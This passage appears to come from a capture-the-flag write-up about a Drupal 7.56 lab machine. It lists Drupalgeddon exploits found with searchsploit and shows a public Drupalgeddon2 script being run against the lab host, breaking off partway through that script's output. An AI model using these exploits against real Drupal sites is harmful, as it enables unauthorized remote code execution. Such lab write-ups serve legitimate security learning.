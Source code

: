 `serachsploit` shows a bunch of Drupal exploits (snipped out ones for non-7
versions):

    
    
    oxdf@parrot$ searchsploit drupal 7
    ----------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                         |  Path
    ----------------------------------------------------------------------- ---------------------------------
    ...[snip]...
    Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)      | php/webapps/34992.py
    Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)       | php/webapps/44355.php
    Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password | php/webapps/34984.py
    Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password | php/webapps/34993.php
    Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Executio | php/webapps/35150.php
    Drupal 7.12 - Multiple Vulnerabilities                                 | php/webapps/18564.txt
    Drupal 7.x Module Services - Remote Code Execution                     | php/webapps/41564.php
    ...[snip]...
    Drupal < 7.34 - Denial of Service                                      | php/dos/35415.txt
    Drupal < 7.34 - Denial of Service                                      | php/dos/35415.txt
    Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploi | php/webapps/44557.rb
    Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution  | php/webapps/44542.txt
    Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote C | php/webapps/44449.rb
    Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote C | php/webapps/44449.rb
    Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execu | php/remote/44482.rb
    Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execu | php/remote/44482.rb
    Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execu | php/webapps/44448.py
    Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote | php/remote/46510.rb
    Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution         | php/webapps/46452.txt
    Drupal < 8.6.9 - REST Module Remote Code Execution                     | php/webapps/46459.py
    ...[snip]...
    ----------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    

There’s clearly a lot here. Drupalgeddon 2 and 3 both look like candidates.

## Shell as apache

### RCE - Drupalgeddon2

Given the number of exploits and the fact that the quality in `searchsploit`
can be a bit all over the map, I went to Google, and found [this
repo](https://github.com/dreadlocked/Drupalgeddon2). I’ll look at exactly what
it’s doing in Beyond Root, but the repo itself works great. Running it
provides a prompt:

    
    
    oxdf@parrot$ /opt/Drupalgeddon2/drupalgeddon2.rb http://10.10.10.233
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [i] Target : http://10.10.10.233/
    --------------------------------------------------------------------------------
    [+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
    [+] Drupal!: v7.56
    --------------------------------------------------------------------------------
    [*] Testing: Form   (user/password)
    [+] Result : Form valid
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Clean URLs
    [!] Result : Clean URLs disabled (HTTP Response: 404)
    [i] Isn't an issue for Drupal v7.x